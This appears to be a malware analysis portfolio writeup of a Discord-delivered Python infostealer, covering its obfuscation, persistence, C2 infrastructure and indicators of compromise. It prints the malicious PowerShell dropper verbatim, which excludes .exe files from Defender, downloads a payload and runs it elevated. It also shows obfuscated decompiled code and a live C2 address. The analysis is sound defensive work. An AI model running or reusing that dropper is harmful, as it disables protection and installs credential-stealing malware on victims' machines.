



# 🧪 Malware Analysis Case Study: Discord-Delivered Infostealer

---

## 🔍 Executive Summary

I investigated a Discord-distributed malware campaign delivering a Python-based infostealer disguised as `.zip` files. The malware employs Base85 + XOR obfuscation, multiple persistence mechanisms, and a WebSocket-based C2 infrastructure. I performed both static and dynamic analysis to uncover the infection chain, payload behavior, and exfiltration methods.

---

## 🧾 Threat Overview

|Category|Details|
|---|---|
|Malware Type|Python-based Infostealer|
|Entry Point|Discord server promotion|
|Obfuscation|Base85 + XOR|
|Persistence|Scheduled tasks|
|Exfil Method|Discord Webhooks & WebSocket C2|
|Primary C2|ws://195.211.190.107:8767|
|Tools Used|pyinstxtractor, pycdc, HxD, Wireshark|

---

## 🧩 1. Initial Vector

- **Delivery Method**: Discord server promoted via [discordservers.com](https://discordservers.com/server/1354134816194564147)
- **File Name**: `Launcher.exe`
- **Behavior**:
    - Hosted on Discord CDN
    - Attempts to evade detection of payloads by using a `.zip` extension with an executable file (confirmed by `MZ` header in HxD)
    - 
    - Downloads additional payloads via obfuscated PowerShell script

---

## 🎯 Advertised Discord Server

[https://discordservers.com/server/135413481619456414](https://discordservers.com/server/1354134816194564147)

### ❌ Fake user:
 
### ✅ Real user:

 

---

## 📦 2. Payload Chain

The PowerShell script downloads 5 payloads from GitHub.

## 🧪 Triage

Initial sample – **Launcher.exe from Discord**  
[Sandbox Link](https://tria.ge/250401-jxxhrsyly6/behavioral1)

### Payloads:

- Payload 1: [https://tria.ge/250401-l4tfsszkz9/behavioral1](https://tria.ge/250401-l4tfsszkz9/behavioral1)
- Payload 2: [https://tria.ge/250401-l8p9yaxvc1/behavioral1](https://tria.ge/250401-l8p9yaxvc1/behavioral1)
- Payload 3: [https://tria.ge/250401-l8yajszlt6/behavioral1](https://tria.ge/250401-l8yajszlt6/behavioral1)
- Payload 4: [https://tria.ge/250401-l7htgazls9/behavioral1](https://tria.ge/250401-l7htgazls9/behavioral1)
- Payload 5: [https://tria.ge/250401-l5p5rsxvbz/behavioral1](https://tria.ge/250401-l5p5rsxvbz/behavioral1)

Grabbed from:  
[https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/](https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/)

> ⚠️⚠️ WARNING: This PowerShell is **malicious**. Do not run it. ⚠️⚠️  
> For **educational purposes only** – shown here as part of analysis.

```powershell
Set-MpPreference -ExclusionExtension *.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Lapresse-Hugo/MalwareDatabase/refs/heads/master/Unknown/1.zip" -OutFile "$Env:LocalAppData\Updates\firefox_updater.exe"; Start-Process -Verb RunAs -Filepath "$Env:LocalAppData\Updates\firefox_updater.exe"
```

---

Despite `.zip` extension, all are PyInstaller-packed `.exe` files.

### Payload Analysis (via Detect It Easy):

- **Payloads 1, 3, 5** → PyInstaller executables



Signs of being infostealers:

- `master_key`, `passwords`, `webhook_url`, `ImageGrab`, etc.

---

## 🧬 3. Obfuscation Techniques

### 🔐 Encoding Technique

The malware used a combo of **Base85 encoding** and an **XOR cipher** with hardcoded keys to obfuscate its payload URLs. I discovered this while reversing `main.pyc` from Payload 5. After extracting the binary using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) and partially decompiling with `pycdc`, I noticed suspicious encoded strings like this:

```python

sJ6APjTTG5m = [
    bytes((
        lambda .0: [
            b ^ bytes([
                79, 236, 233, 131, 98, 113, 56, 128,
                1, 188, 24, 65, 215, 92, 0, 10
            ])[i % len(bytes([
                79, 236, 233, 131, 98, 113, 56, 128,
                1, 188, 24, 65, 215, 92, 0, 10
            ]))]
            for i, b in .0
        ]
    )(enumerate(base64.b85decode(
        'Czze{5la`ZaouY*vOZ~KVULFHO#@l?F8C@Il@dxv3j'
    )))).decode(),

    bytes((
        lambda .0: [
            b ^ bytes([
                251, 205, 223, 132, 109, 225, 225, 177,
                201, 73, 47, 106, 241, 225, 7, 190
            ])[i % len(bytes([
                251, 205, 223, 132, 109, 225, 225, 177,
                201, 73, 47, 106, 241, 225, 7, 190
            ]))]
            for i, b in .0
        ]
    )(enumerate(base64.b85decode(
        'lew$(9^1~Ipe;%akdkQFkK?@S0M3!nx;;u6-qS+YuB(~+Uev0Bxn^AphRy'
    )))).decode()
]


```


From there, I wrote a quick decoder in Python:

```python
import base64

def decode_b85_xor(encoded: bytes, key: bytes) -> str:
    decoded_bytes = base64.b85decode(encoded)
    xored = bytes([b ^ key[i % len(key)] for i, b in enumerate(decoded_bytes)])
    return xored.decode(errors="replace")

# Example 1
encoded_1 = b'Czze{5la`ZaouY*vOZ~KVULFHO#@l?F8C@Il@dxv3j'
key_1 = bytes([79, 236, 233, 131, 98, 113, 56, 128, 1, 188, 24, 65, 215, 92, 0, 10])
print(decode_b85_xor(encoded_1, key_1))

# Example 2
encoded_2 = b'lew$(9^1~Ipe;%akdkQFkK?@S0M3!nx;;u6-qS+YuB(~+Uev0Bxn^AphRy'
key_2 = bytes([251, 205, 223, 132, 109, 225, 225, 177, 201, 73, 47, 106, 241, 225, 7, 190])
print(decode_b85_xor(encoded_2, key_2))
```

### 🔓 Decoded Payload URLs

```json
{
  "url1": "https://pastebin.com/raw/D2WBNJMD",
  "url2": "https://idefasoft.com/pastes/2EiUfFx35K3p/raw/",
  "resolved": "ws://195.211.190.107:8767"
}
```

---

## ⚙️ 4. Persistence & Behavior

- Creates Scheduled Tasks:
    - `EdgeUpdater`, `SystemUpdater`, `WindowsUpdater`
- Survives Reboot
- Screenshot + credential grab
- Uses Discord Webhooks and WebSocket for exfil

---

## 🌐 5. Network Infrastructure

### 🧭 C2 Server

- WebSocket URL: `ws://195.211.190.107:8767`
- Resolved Host: `ryoko.questnerd.net`

### 🌍 Geo Info

```
IP: 195.211.190.107
Location: Kerkrade, Limburg, NL
Org: AS214943 Railnet LLC
```

---

## 🕵️ 6. Attribution Clues

- Hosted on: [Lapresse-Hugo’s GitHub fork](https://github.com/Lapresse-Hugo/MalwareDatabase)
- Claimed Identity: [Hugo Lapresse](https://www.linkedin.com/in/hugo-lapresse/)

⚠️ Attribution likely false – this appears to be impersonation.

---

## 📎 7. Indicators of Compromise (IOCs)

|Type|Value|
|---|---|
|URL|[https://pastebin.com/raw/D2WBNJMD](https://pastebin.com/raw/D2WBNJMD)|
|URL|[https://idefasoft.com/pastes/2EiUfFx35K3p/raw/](https://idefasoft.com/pastes/2EiUfFx35K3p/raw/)|
|GitHub|[https://github.com/Lapresse-Hugo/MalwareDatabase](https://github.com/Lapresse-Hugo/MalwareDatabase)|
|WebSocket C2|ws://195.211.190.107:8767|
|IP|195.211.190.107|

---

## 🛡️ 8. Detection & Mitigation

- Detect disguised `.zip` files with MZ headers
- Block outbound WebSocket to untrusted IPs
- Alert on suspicious PowerShell + scheduled task creation

---

## 🧰 9. Tooling & Methodology

- Static: HxD, Detect It Easy
- Dynamic: tria.ge, Wireshark
- Unpacking: pyinstxtractor
- Decompiling: pycdc
- Scripting: Custom Python deobfuscator

---

## ✅ Conclusion

This analysis shows how social engineering and public infra (Discord, GitHub, Pastebin) combine to deliver Python-based infostealers with persistence, obfuscation, and stealth C2.

---

## 🧠 What I Learned

- PyInstaller malware reversing
- Base85 + XOR deobfuscation
- Triage + tooling workflow

---

## 📩 Contact

Open to work in threat research, SOC, detection engineering, reverse engineering, or red teaming.
